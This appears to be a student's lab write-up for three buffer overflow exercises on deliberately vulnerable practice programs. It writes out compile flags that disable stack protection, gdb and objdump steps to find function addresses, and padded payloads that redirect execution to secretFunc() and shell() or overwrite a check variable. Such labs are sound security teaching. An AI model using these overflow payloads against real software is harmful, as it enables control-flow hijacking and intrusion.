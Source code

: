 # Lab#1 Conduct buffer overflow attack .
## Prepared the eviroment .
  1. Open your Docker Destop
  2. Choice the folder contain file lab and open Terminal
     
      ```bash
      git clone https://github.com/quang-ute/myprojects
      ```
      and after that:
     ```bash
     cd myprojects
     ```
  3. Build the image `img4lab` by Docker
     ```bash
     docker build -t img4lab .
     ```
     and run docker container
     ```bash
      docker run -it --privileged -v $HOME/seclabs:/home/seed/seed@ img4lab
     ```
  4. On `seed@...`
     ```
     cd seclabs
     ```
     create a new direction named `bof`
     ```bash
     mkdir bof
     ```
     and after that:
     ```bash
     cd bof
     ```
     and Open you VSCode -> Connect to WSL -> Open folder `bof`  and catch file bof1, bof2, bof3 from `https://github.com/quang-ute/Security-labs/tree/main/Software/buffer-overflow`
## Attack ( BOF 1 )
![image](https://github.com/user-attachments/assets/3ca0dd01-c5b1-4abd-adcb-757f64f60c0d)

If an attacker supplies more input than the buffer array[200] can handle, they could potentially control the flow of the program and execute unintended code.

1. On `/seclabs/bof$`
   ```bash
   gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
   and load bof1.out in gdb
  
    ```bash
    gdb bof1.out
    ```
  2. Use the disassemble command to display the assembly code
     ```bash
     disas secretFunc
     ```
     ![image](https://github.com/user-attachments/assets/7ee1e5e0-441a-4a39-9a40-bb98f3545acc)
  
  The secretFunc() memory region is `0x0804846b`
  
  3. Input 'a'*204 followed by `0x0804846b`
     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
     ```
       ![image](https://github.com/user-attachments/assets/a93df09c-aaec-4d0d-8bb4-f96f3cb402b4)
     To remove the Missing arguments line, add any value at the end of your command

     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out 120
     ```

     
     ![image](https://github.com/user-attachments/assets/3074ef1f-1809-45df-b5aa-61ef31dffcff)

  ## Attack ( BOF 2 )
  
  ![image](https://github.com/user-attachments/assets/fddde23e-e6fd-4c80-bddd-f2250f004701)

> Since buf is only 40 characters in size, but fgets allows input of up to 45 characters, this can overwrite the memory after the buf array, including the check variable. If you enter enough data to overwrite the value of check, you can change it to 0xdeadbeef, leading to the condition being satisfied and printing the winning message.

1.  On `/seclabs/bof$`
2.  
   ```bash
   gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
  
2. 

```bash
 echo $(python -c "print('a'*40)" + '\x01\x02\x03\x04' ) | ./bof2.out
```

Terminal will be return  `You are on the right way!`
![image](https://github.com/user-attachments/assets/83deaff6-f75f-46f9-8fdf-8dce2ad89d7a)


If you want to print `Yeah! You win!`
```bash
echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde' )") | ./bof2.out
```
![image](https://github.com/user-attachments/assets/57848a21-9021-4c9c-994a-555c01043102)


 ## Attack ( BOF 3 )    

![image](https://github.com/user-attachments/assets/fef81261-6a29-4df0-974b-91f41cddffb1)



 
The first of all, you have to run 
```bash
objdump -d bof3.out | grep shell
```


 ![image](https://github.com/user-attachments/assets/2298c0b9-23b6-4bd3-b4fb-31c653e51de7)

you can see the address of  `<shell>` is `0804845b`  and after that:

```bash
echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
```
![image](https://github.com/user-attachments/assets/8425fba6-cc53-4a19-8ddf-f43020f89baa)

Buffer overflow occurs when too much data is entered into the buf. Since fgets allows up to 133 characters to be input (more than the size of buf), the excess data can overwrite the function pointer func. If an attacker knows the address of the shell() function and overwrites the func pointer with this address, the shell() function will be called instead of sup().

